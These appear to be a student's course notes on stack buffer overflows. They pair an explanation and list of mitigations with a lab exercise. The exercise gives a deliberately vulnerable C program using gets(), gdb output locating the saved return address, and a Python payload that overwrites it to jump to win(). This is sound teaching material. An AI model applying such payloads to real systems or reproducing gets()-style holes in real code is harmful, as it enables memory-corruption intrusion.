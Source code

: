 > [!idea]+ Buffer Overflow Vulnerabilities
>
> A buffer overflow is a security vulnerability that **occurs when a program writes more data to a buffer (array) than it can hold**, causing the excess data to overflow into adjacent memory locations.
> 
> ![[Pasted image 20240319142840.png]]
>
> Why buffer overflows are dangerous:
> - The overflowed data **can corrupt important program information** stored in memory
> - Attackers can intentionally overflow buffers to **overwrite control data like return addresses or function pointers**
> - By carefully crafting their input, **attackers can hijack program execution and run arbitrary code**
>
> **Example:** Consider an ATM program in C that prompts users to enter their name:
>
> ```c
> void getName() {
>     char name[20];
>     printf("Enter your name: ");
>     gets(name);
>     // ...
> }
> ```
>
> The `name` buffer can only hold 20 characters, but `gets()` allows writing an arbitrary length string. An attacker could input a very long name:
>
> ```
> AAAAAAAAAAAAAAAAAAAA\x10\x21\x51\x31...
> ```
>
> The `A`s overflow the buffer, and the `\x10\x21\x51\x31` bytes overwrite the return address. When `getName()` returns, execution jumps to the attacker's code instead of the intended location.
> 
> ![[Pasted image 20240319143354.png]]
>
> **Potential outcomes of buffer overflow attacks**:
> - Crashing the program (benign case)
> - Redirecting execution to an existing function (e.g. `dispenseMoney()`)
> - **Injecting and executing custom shellcode** (e.g. spawning a shell, stealing data) 
>
> **Solutions and mitigations**:
> - Use **runtime bounds checking** to validate array indices and sizes (performance overhead) (Implemented in Python, Rust, Java but not C, C++)
> - Employ secure string handling functions that limit input length
> - Enable compiler protections like stack canaries, ASLR, and DEP
> - Most importantly, write secure code that validates untrusted input 
>
> In summary, buffer overflows allow attackers to corrupt memory and hijack program control flow. Careful programming practices are essential to prevent these dangerous vulnerabilities.



> [!exercise]+ Exercise - Exploiting Stack Overflow to Change Program Flow
>
> **Example Scenario:**
>
> A vulnerable C program has a function `hello()` that uses `gets()` to read user input into a buffer `buf` of size 17 bytes. The program is not supposed to reach the `win()` function, which prints "You win!". The goal is to exploit the stack overflow vulnerability to overwrite the return address and redirect program flow to the `win()` function.
>
> Here's the vulnerable C code:
>
> ```c
> #include <stdio.h>
> #include <stdlib.h>
>
> void win()
> {
>     printf("You win!\n");
> }
>
> void hello()
> {
>     char buf[17];
>     printf("What is your name? ");
>     gets(buf);
>     printf("Hello %s!\n", buf);
> }
>
> int main(int argc, char **argv)
> {
>     hello();
>     return 0;
> }
> ```

> [!exercise]+ Analyzing the Stack Frame
>
> 1. Set a breakpoint just before the `hello()` function ends and run the program with a pattern of 16 "A"s as input.
>
>    ```
>    (gdb) br 12
>    Breakpoint 1 at 0x1217: file flow.c, line 12.
>    (gdb) run < <(python -c 'print("A"*16)')
>    Starting program: /home/a1112407/ws5/flow < <(python3 -c 'print("A"*16)')
>    
>    Breakpoint 1, hello () at flow.c:12
>    12 printf("Hello %s!\n", buf);
>    ```
>
> 2. Use `info frame` to find the location of the saved return address (saved EIP) on the stack. In this case, it's at `0xffffd32c`.
>
>    ```
>    (gdb) info frame
>    Stack level 0, frame at 0xffffd330:
>     eip = 0x565562d7 in hello (flow.c:12); saved eip = 0x56556248
>     called by frame at 0xffffd340
>     source language c.
>     Arglist at 0xffffd328, args: 
>     Locals at 0xffffd328, Previous frame's sp is 0xffffd330
>     Saved registers:
>      ebx at 0xffffd324, ebp at 0xffffd328, eip at 0xffffd32c
>    ```
>
>    > [!consider]
>    > Let's clarify the different EIP values mentioned in the `info frame` output:
>    >
>    > 1. `current_instruction_pointer = 0x565562d7 in hello (flow.c:12)`:
>    >    - This is the current value of the EIP register, pointing to the next instruction to be executed within the `hello()` function.
>    >
>    > 2. `return_address = 0x56556248`:
>    >    - This is the saved return address (saved EIP) that determines where the program should continue execution after the `hello()` function returns.
>    >    - We want to overwrite this value with the address of the `win()` function to redirect the program flow.
>    >
>    > 3. `return_address_location = 0xffffd32c`:
>    >    - This is the memory address on the stack where the `return_address` is stored within the current stack frame.
>    >    - By overwriting the memory at this location with the address of the `win()` function, we can change the saved return address and alter the program flow.
>    ><br>
>
> 3. Use `x/40x $esp` to examine the stack contents. The series of `0x41414141` represents the 16 "A"s in the `buf` buffer.
>
>    ```
>    (gdb) x/40x $esp
>    0xffffd310:  0x41414141  0x41414141  0x41414141  0x41414141
>    0xffffd320:  0xf7fe4200  0x00000000  0xffffd338  0x56556248
>    0xffffd330:  0xf7fb3000  0xf7fb3000  0x00000000  0xf7dfa811
>    0xffffd340:  0x00000001  0xffffd3d4  0xffffd3dc  0xffffd364
>    ```
>
>    Notice that the `return_address` (`0x56556248`) can be found here too, confirming that this is the value we want to override.
>
> 4. Determine the address of the `win()` function using `print win`. In this example, it's at `0x565561b9`.
>
>    ```
>    (gdb) print win
>    $2 = {void ()} 0x565561b9
>    ```
>
>    We will use this address (`0x565561b9`) to overwrite the `return_address` stored at `return_address_location` and redirect execution to the `win()` function.



> [!exercise]+ Crafting the Exploit Payload
>
> 1. To overwrite the return address and redirect execution to `win()`, the payload needs to:
>    - Fill the `buf` buffer with 16 bytes of data ("A"s).
>    - Pad an additional 12 bytes to reach the saved return address.
>    - Overwrite the saved return address (`0x56556248`) with the address of `win()` (`0x565561b9`).
>
> 2. The Python payload to generate this exploit string is:
>    ```python
>    print("A"*28 + "\xb9\x61\x55\x56")
>    ```
>    - `"A"*28` fills the buffer and padding (16 + 12 bytes).
>    - `"\xb9\x61\x55\x56"` is the little-endian representation of `0x565561b9` (address of `win()`).
>
> **Why It Works:**
>
> - The `buf` buffer can hold 17 bytes, but `gets()` allows writing beyond the buffer size, overflowing the stack.
> - By carefully crafting the input, we can overwrite the saved return address (`0x56556248`) on the stack with the address of the `win()` function (`0x565561b9`).
> - When the `hello()` function returns, instead of returning to the original caller (`0x56556248`), it jumps to the `win()` function (`0x565561b9`), printing "You win!".
>
> This example demonstrates how stack overflow vulnerabilities can be exploited to manipulate program flow by overwriting the saved return address on the stack, allowing arbitrary code execution.




